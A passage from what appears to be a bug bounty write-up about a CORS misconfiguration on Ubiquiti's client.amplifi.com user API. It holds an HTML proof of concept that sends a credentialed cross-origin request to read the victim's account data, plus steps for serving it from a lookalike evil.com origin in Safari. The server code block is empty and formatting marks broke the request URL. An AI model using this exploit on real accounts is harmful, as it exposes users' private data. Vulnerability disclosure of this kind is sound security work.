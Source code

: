 ```javascript
```
3. In the same directory, save the following:

**_cors.html_**

```html

<!DOCTYPE html>  
<html>  
<head><title>CORS</title></head>  
<body onload="cors();">  
<center>  
cors proof-of-concept:<br><br>  
<textarea rows="10" cols="60" id="pwnz">  
</textarea><br>  
</div>  
  
<script>  
function cors() {  
  var xhttp = new XMLHttpRequest();  
  xhttp.onreadystatechange = function() {  
    if (this.readyState == 4 && this.status == 200) {  
      document.getElementById("pwnz").innerHTML = this.responseText;  
    }  
  };  
  xhttp.open("GET", "**_https://_****_client.amplifi.com_****_/api/user/_**", true);  
  xhttp.withCredentials = true;  
  xhttp.send();  
}  
</script>
```
4. Start the NodeJS server by running the following command:

node serve.js &

5. Now, sign in to the application on:  [**_https://protect.ubnt.com/_**](https://protect.ubnt.com/)**_,_** and check that you can retrieve your account information from the endpoint:  **_https://client.amplifi.com/api/user/_**

6. Finally, open the link:  [**_https://zzzz.ubnt.com=.evil.com_**](https://zzzz.ubnt.com%21.evil.com/)**_/cors-poc_** In Safari Browser, And Voilà.

In my case I used the Safari browser in my iPhone as PoC, since I don’t have a Mac machine.

![](https://miro.medium.com/max/875/1*4Fm5oVWqbR2KyjJ-Yw1tVQ.jpeg)

## Reward

![](https://miro.medium.com/max/875/1*_0FIr2SDyu76xnCIxXBUCw.png)


# Takeaway
